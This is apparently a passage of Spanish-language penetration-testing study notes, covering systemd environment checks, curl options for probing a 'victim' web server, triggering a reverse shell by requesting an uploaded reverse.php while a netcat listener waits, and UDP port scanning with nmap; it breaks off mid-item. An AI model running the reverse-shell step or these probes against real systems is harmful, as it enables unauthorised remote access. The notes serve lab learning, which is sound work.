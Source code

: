 Proceso del servicio

comando

grep -r "Environment=" /etc/systemd/system/

systemctl cat nombre-del-servicio

Busca una línea como

Environment="PATH=/custom/bin:/usr/bin:/bin"

-------------------------------------------------------------------------------

## 73.- Si tengo el puerto ssh y http Apache abierto y veo que no se puede hacer nada más, entonces procedo lanzar un curl

curl IP-VÍCTIMA -I

para ver encabezados HTTP (HEAD request)

no descarga el contenido del cuerpo de la página

curl IP-VÍCTIMA -S

descarga el contenido de la página

parámetros

-I	Muestra solo los headers (HEAD request).
-s	Modo silencioso (sin progreso, sin errores).
-L	Sigue redirecciones automáticamente (301/302).
-v	Verboso, muestra detalles del proceso HTTP.
-o file	Guarda la respuesta en un archivo.
-A	Define el User-Agent.
-H	Añade headers personalizados (como cookies o                       tokens).
-u user:pass	Autenticación HTTP básica.

reverse shell

nos ponemos en escucha con netcat y ejcutamos

curl http://192.168.1.121/reverse.php

## 74.- Si tengo un puerto http y ya agoté los recursos para enumerar, hice fuzzing web y no funciona entonces pruebo con puertos UDP.

los puerto más comunes 67,68,69,82

sudo nmap -sU -p 67,68,69,82 IP-VICTIMA

-------------------------------------------------------------------------------

## 75.- Cuando estoy editando un archivo de texto y se cierra inesperadamente, los archivos cerrados tienen las siguientes extensiones:
